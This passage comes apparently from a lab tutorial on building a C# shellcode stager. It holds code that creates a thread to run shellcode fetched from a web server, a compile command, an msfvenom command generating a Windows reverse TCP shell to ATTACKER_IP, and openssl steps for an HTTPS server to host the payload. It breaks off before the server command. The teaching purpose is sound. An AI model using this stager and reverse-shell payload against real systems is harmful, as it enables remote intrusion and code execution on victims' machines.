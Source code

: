 Once the thread has been created, we will call the **`WaitForSingleObject()`** function to instruct our current program that it has to wait for the thread execution to finish before continuing. This prevents our program from closing before the shellcode thread gets a chance to execute:

```csharp
IntPtr threadHandle = IntPtr.Zero;
UInt32 threadId = 0;
IntPtr parameter = IntPtr.Zero;
threadHandle = CreateThread(0, 0, codeAddr, parameter, 0, ref threadId);

WaitForSingleObject(threadHandle, 0xFFFFFFFF);
```

To compile the code, we suggest copying it into a Windows machine as a file called staged-payload.cs and compiling it with the following command:

PowerShell

```
PS C:\> csc staged-payload.cs
```

# Using our stager to run a reverse shell

Once our payload is compiled, we will need to set up a web server to host the final shellcode. Remember that our stager will connect to this server to retrieve the shellcode and execute it in the victim machine in-memory. Let's start by generating a shellcode (the name of the file needs to match the URL in our stager):

AttackBox

```
user@AttackBox$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=7474 -f raw -o shellcode.bin -b '\x00\x0a\x0d'
```

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=7474 -f raw -o shellcode.bin -b '\x00\x0a\x0d
```

Notice that we are using the raw format for our shellcode, as the stager will directly load whatever it downloads into memory.

Now that we have a shellcode, let's set up a simple HTTPS server. First, we will need to create a self-signed certificate with the following command:

AttackBox

```
user@AttackBox$ openssl req -new -x509 -keyout localhost.pem -out localhost.pem -days 365 -nodes
```

```bash
 openssl req -new -x509 -keyout localhost.pem -out localhost.pem -days 365 -nodes
```

You will be asked for some information, but feel free to press enter for any requested information, as we don't need the SSL certificate to be valid. Once we have an SSL certificate, we can spawn a simple HTTPS server using python3 with the following command:
